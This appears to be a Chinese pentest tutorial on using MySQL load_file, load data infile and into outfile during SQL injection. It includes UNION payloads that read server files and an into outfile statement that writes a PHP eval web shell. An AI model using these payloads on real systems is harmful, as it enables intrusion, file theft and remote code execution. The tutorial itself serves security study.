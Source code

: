 ```yaml
---
layout: default
category: Web安全
tags: [SQL注入]
---
```


## 0x00 相关函数

* load_file()
* load data infile
* into outfile 

## 0x01 load_file()导出文件

**作用：** 读取文件并返回该文件的内容

**使用的条件：**

1. 必须有权限读取并且文件必须完全可读
   1.  `and (select count(*) from mysql.user)>0 %23` 返回正常，说明有读写权限
2. 读取的文件必须在服务器上
3. 必须指定文件的绝对路径
4. 读取文件必须小于max_allowed_packet

文件不满足的情况下，会返回空。在windows 下，如果NTFS 设置得当，是不能读取相关的文件的，当遇到只有
administrators 才能访问的文件，users 就别想load_file 出来。

在测试的过程中一个难题需要解决：

* 网站的绝对路径

**查找物理路径的方法：**

* 报错显示，通过构造错误query语句，如果`display_error=on` ,那么就会爆出绝对路径
* Google hacking
  * site: url warning
* 读取配置文件
* 遗留的文件 phpinfo、info、test
* 漏洞爆路径

**注意：**

1. 路径符号`\` 要转义`\\`
2. 路径可以是十六进制，就不要`""`

```
select 1,2,3,4,5,6,7,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92,
114,101,112,97,105,114,92,115,97,109)))//利用hex()将文件内容导出来，尤其是smb 文件时可以使用。

-1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))

-1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69)

-1 union select 1,1,1,load_file(c:\\boot.ini)
```

**常用路径：**
http://www.cnblogs.com/lcamry/p/5729087.html

## 0x02 load data infile 文件导入到数据库

**作用：** 句用于高速地从一个文本文件中读取行，并装入一个表中。文件名称必须为一个文字字符串。在注入过程中，我们往往需要一些特殊的文件，比如配置文件，密码文件等。当你具有数据库的权限时，可以将系统文件利用load data infile 导入到数据库中。

```
示例：load data infile '/tmp/t0.txt' ignore into table t0 character set gbk fields terminated by '\t' lines terminated by '\n'
```

将/tmp/t0.txt 导入到t0 表中，character set gbk 是字符集设置为gbk，fields terminated by 是
每一项数据之间的分隔符，lines terminated by 是行的结尾符。

当错误代码是2 的时候的时候，文件不存在，错误代码为13 的时候是没有权限，可以考虑
/tmp 等文件夹。

## 0x03 into outfile 导入到文件

**作用：**可以将选择的行写入到一个文件中，该文件被创建在服务器的主机上，必须有file权限，而且filename不能是一个已经存在的文件。

一般有两种形式：

```
第一种： 直接将select内容写入到文件中
Select <?php @eval($_post[“mima”])?> into outfile “c:\\phpnow\\htdocs\\test.php”

第二种： 修改文件结尾
Select version() Into outfile “c:\\phpnow\\htdocs\\test.php” line terminated by 0x16进制文件
```

在sqlmap 中os-shell 采取第二种方式，具体可参考os-shell 分析文章：http://www.cnblogs.com/lcamry/p/5505110.html